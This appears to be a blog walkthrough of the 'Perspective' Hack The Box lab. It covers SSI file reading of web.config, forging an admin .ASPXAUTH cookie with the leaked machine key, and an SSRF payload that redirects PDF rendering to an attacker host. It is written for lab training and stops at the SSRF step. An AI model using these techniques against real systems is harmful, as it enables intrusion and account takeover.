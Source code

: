 ```yaml
---
title: "Perspective HTB - Insane Windows Box Walkthrough"
date: 2025-09-22T05:45:00Z
tags: ["insane-windows", "web", "ssi", "lfi", "ssrf", "viewstate-deserialization", "padding-oracle", "command-injection", "privilege-escalation"]
difficulty: ["insane"]
categories: ["HTB", "Windows"]
draft: false
description: "Complete walkthrough of Perspective HTB machine featuring ASP.NET vulnerabilities, SSI-based LFI, ViewState deserialization, SSRF, padding oracle attacks, and privilege escalation"
---
```


# Perspective HTB - Insane Windows Box Walkthrough

{{< youtube tmK0GIvnq6s >}}

1. **Initial Reconnaissance**:
   - Perform Nmap scan on the target IP ([TARGET-IP]) to identify open ports: SSH (22) and HTTP (80) running IIS.
   - Access the web app on port 80, which redirects to perspective.htb (add to /etc/hosts).
   - Identify the web app as an ASP.NET application by testing file extensions (e.g., .aspx gives different 404 error).

2. **User Registration and Login**:
   - Register a user account (e.g., root@perspective.htb) and log in.
   - Test password reset functionality, noting security questions and a token in the request.

3. **Unintended Admin Access via Password Reset Bypass** (Mentioned but skipped for intended path):
   - Intercept password reset request and change email to admin@perspective.htb to reset admin password and gain admin access.

4. **File Upload Vulnerability Testing**:
   - As logged-in user, upload products with images.
   - Fuzz allowed file extensions using ffuf on the upload request, identifying extensions like .php4, .shtml, etc.
   - Attempt PHP upload fails to execute, but .shtml allows Server-Side Includes (SSI).

5. **Local File Inclusion (LFI) via SSI in .shtml**:
   - Upload .shtml file with SSI directive ( or similar) to read web.config.
   - Traverse directories (e.g., ../web.config) to read root web.config.
   - Extract key info: Machine key (validationKey and decryptionKey), encrypted viewStateUserKey, MSSQL connection string, and reference to Secure Password Service on localhost:8000.

6. **Forge Admin Cookie (.ASPXAUTH)**:
   - Use machine key from web.config to decrypt an existing .ASPXAUTH cookie (using custom .NET tool from GitHub: AFNetCryptoTools).
   - Modify decrypted ticket to admin@perspective.htb, re-encrypt, and set as cookie to gain admin access.

7. **SSRF via PDF Generation in Admin Panel**:
   - As admin, load user data and generate PDF.
   - Inject HTML (e.g., `<meta http-equiv="refresh" content="0;url=http://[ATTACKER-IP]:8000/pwned.html">`) into product description to trigger SSRF during PDF rendering (using headless Chrome).
   - Redirect to localhost:8000 to access Secure Password Service API.
   - Fetch /swagger/v1/swagger.json to understand API: /encrypt (GET) and /decrypt (POST) endpoints.
